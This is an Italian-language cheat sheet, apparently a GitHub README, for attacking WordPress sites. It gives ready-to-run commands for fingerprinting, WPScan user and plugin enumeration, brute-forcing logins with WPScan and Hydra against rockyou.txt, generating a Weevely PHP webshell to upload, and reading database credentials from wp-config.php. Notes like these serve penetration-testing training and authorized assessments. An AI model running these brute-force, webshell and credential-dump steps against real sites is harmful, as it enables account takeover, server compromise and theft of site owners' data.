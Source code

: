 # 📰 WordPress Exploitation & Enumeration

Appunti e snippet per la fase di **ricognizione e attacco su WordPress**.

## 📌 Obiettivi

* Identificare se il target usa **WordPress**
* Enumerare versioni, plugin, temi e utenti
* Cercare vulnerabilità note sfruttabili
* Preparare brute force / exploit mirati

---

## 🔎 Riconoscere WordPress

**Perché farlo:**
Prima di lanciare WPScan conviene verificare che il target sia effettivamente WordPress.

### 🔹 Comandi rapidi

```bash
# Fingerprint con WhatWeb
whatweb http://<target-ip>/

# Cerca indizi di WordPress (wp-content, wp-admin)
curl -s -I http://<target-ip>/ | grep "wp-"
```

---

## 🛠️ WPScan (Main Tool)

**Perché usarlo:**
Strumento principale per l’enumerazione WordPress: versione, utenti, plugin, temi, vuln DB integrato.

**Opzioni principali:**

* `--url` → target
* `--enumerate` → enumera info (u = users, p = plugins, t = themes, vp = vuln plugins, vt = vuln themes)
* `--api-token` → usa database ufficiale di vulnerabilità (serve token gratuito)
* `-P` → brute force con wordlist
* `-U` → specifica username o lista di utenti
* `--password-attack wp-login` → forza l’attacco sulla pagina di login WP

### 🔹 Comandi diretti

```bash
# Enum utenti
wpscan --url http://<target-ip> --enumerate u

# Enum full scan (plugin, temi, utenti)
wpscan --url http://<target-ip> -e vp,vt,u 

# Enum plugin + vulnerabilità note
wpscan --url http://<target-ip> --enumerate p --api-token <TOKEN>
```

---

## 🔑 WPScan – Password Bruteforce

**Perché farlo:**
Dopo aver enumerato gli utenti, puoi provare password comuni con WPScan.

### 🔹 Attacco base (un solo utente)

```bash
wpscan --url http://<target-ip> -U admin -P /usr/share/wordlists/rockyou.txt
```

### 🔹 Attacco multiplo (lista di utenti)

```bash
wpscan --url http://<target-ip> -U users.txt -P /usr/share/wordlists/rockyou.txt
```

### 🔹 Specifica la modalità di attacco

```bash
wpscan --url http://<target-ip> -U admin -P rockyou.txt --password-attack wp-login
```

### 🔹 Aggressività / Performance

```bash
# Limita o aumenta i thread
wpscan --url http://<target-ip> -U admin -P rockyou.txt --max-threads 10
```

### 💾 Salvataggio su file

```bash
wpscan --url http://<target-ip> -U users.txt -P rockyou.txt -o brute_results.txt
```

---

## 📦 Droopescan (Alternative CMS Scanner)

**Perché usarlo:**
Può rilevare plugin, temi e versioni di CMS (Drupal, SilverStripe, Joomla, WordPress).

### 🔹 Comando base

```bash
droopescan scan wordpress -u http://<target-ip>/
```

---

## 🗂️ CMSmap (Cross-CMS Enumeration)

**Perché usarlo:**
Supporta più CMS, incluso WordPress. Buono per test veloci.

### 🔹 Comando base

```bash
cmsmap http://<target-ip> -f W
```

---

## 🔑 Login Bruteforce (Hydra Alternative)

**Perché usarlo:**
Se WPScan non basta o vuoi parallelizzare.

### 🔹 Comando con Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```

---

## 🐚 Upload Shell / Exploit

**Perché usarlo:**
Se puoi caricare file (es. plugin, media upload), testare upload di una **webshell**.

### 🔹 Quick example

```bash
# Usa Weevely per generare una webshell PHP
weevely generate pass123 shell.php

# Caricala in /wp-content/uploads/
```

---

## ⚡ Workflow tipico su WP

1. **Identifica** → WhatWeb / manual check `/wp-content/`
2. **Enumera** → WPScan (utenti, plugin, temi, vuln)
3. **Cerca credenziali** → brute con WPScan/Hydra
4. **Exploita** → plugin vulnerabili o shell upload
5. **Post-Explo** → wp-config.php (credenziali DB)

```bash
# Se ottieni accesso al server → dump credenziali MySQL
cat wp-config.php | grep DB_
```

